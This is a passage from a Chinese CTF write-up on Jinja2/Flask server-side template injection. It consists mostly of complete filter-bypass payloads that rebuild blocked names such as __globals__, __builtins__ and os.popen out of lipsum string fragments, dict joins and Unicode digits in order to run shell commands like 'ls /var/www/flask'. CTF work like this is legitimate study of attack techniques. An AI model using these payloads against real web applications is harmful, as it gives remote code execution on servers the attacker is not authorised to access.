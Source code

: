 最后的`payload`如下，成功执行`ls /var/www/flask`就可以看到`flag`了

```
name={%set a=dict(po=aa,p=aa)|join%}{%set b=lipsum|string|list|attr(a)(𝟙𝟠)%}{%set c=(b,b,dict(glob=cc,als=aa)|join,b,b)|join%}{%set d=(b,b,dict(ge=cc,tit=dd,em=aa)|join,b,b)|join%}{%set e=dict(o=cc,s=aa)|join%}{%set f=lipsum|string|list|attr(a)(𝟡)%}{%set g=(((lipsum|attr(c))|attr(d)(e))|string|list)|attr(a)(-𝟠)%}{%set i=(dict(cat=aa)|join,f,g,dict(flag=aa)|join)|join%}{%set h=(a,dict(en=aa)|join|join)|join%}{%set i=dict(re=aa,ad=aa)|join%}{%set z=(((lipsum|attr(c))|attr(d)(e))|string|list)|attr(a)(-𝟝)%}{%set j=(dict(ls=aa)|join,f,g,(dict(var=aa)|join),g,(dict(www=aa)|join),g,(dict(flask=aa)|join)|join)|join%}{%print (((lipsum|attr(c))|attr(d)(e))|attr(h)(j))|attr(i)()%}{{j}}
```



当然上面这种做法是利用了unicode编码，如果不利于unicode编码，我们也有办法

比如我们要构造下划线`_`

```html
{% set id=dict(ind=a,ex=a)|join%}
{% set pp=dict(po=a,p=a)|join%}
{% set nn=dict(n=a)|join%}
{% set tt=dict(t=a)|join%}
{% set ff=dict(f=a)|join%}
{% set five=(lipsum|string|list)|attr(id)(tt) %}
{% set three=(lipsum|string|list)|attr(id)(nn) %}
{% set one=(lipsum|string|list)|attr(id)(ff) %}
{% set shiba=five*five-three-three-one %}
{% set xiahuaxian=(lipsum|string|list)|attr(pp)(shiba) %}
{{xiahuaxian}}
```

相当于`(lipsum|string|list).pop(18)`

放几个其他师傅的payload:

```
{% set id=dict(ind=a,ex=a)|join%}
{% set pp=dict(po=a,p=a)|join%}
{% set ls=dict(ls=a)|join%}
{% set ppe=dict(po=a,pen=a)|join%}
{% set gt=dict(ge=a,t=a)|join%}
{% set cr=dict(ch=a,r=a)|join%}
{% set nn=dict(n=a)|join%}
{% set tt=dict(t=a)|join%}
{% set ff=dict(f=a)|join%}
{% set ooqq=dict(o=a,s=a)|join %}
{% set rd=dict(re=a,ad=a)|join%}
{% set five=(lipsum|string|list)|attr(id)(tt) %}
{% set three=(lipsum|string|list)|attr(id)(nn) %}
{% set one=(lipsum|string|list)|attr(id)(ff) %}
{% set shiba=five*five-three-three-one %}
{% set xiahuaxian=(lipsum|string|list)|attr(pp)(shiba) %}
{% set gb=(xiahuaxian,xiahuaxian,dict(glob=a,als=a)|join,xiahuaxian,xiahuaxian)|join %}
{% set bin=(xiahuaxian,xiahuaxian,dict(builtins=a)|join,xiahuaxian,xiahuaxian)|join %}
{% set chcr=(lipsum|attr(gb))|attr(gt)(bin)|attr(gt)(cr) %}
{% set xiegang=chcr(three*five*five-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one)%}
{% set space=chcr(three*three*five-five-five-three) %}
{% set shell=(ls,space,xiegang,dict(var=a)|join,xiegang,dict(www=a)|join,xiegang,dict(flask=a)|join)|join %}
{{(lipsum|attr(gb))|attr(gt)(ooqq)|attr(ppe)(shell)|attr(rd)()}}

```
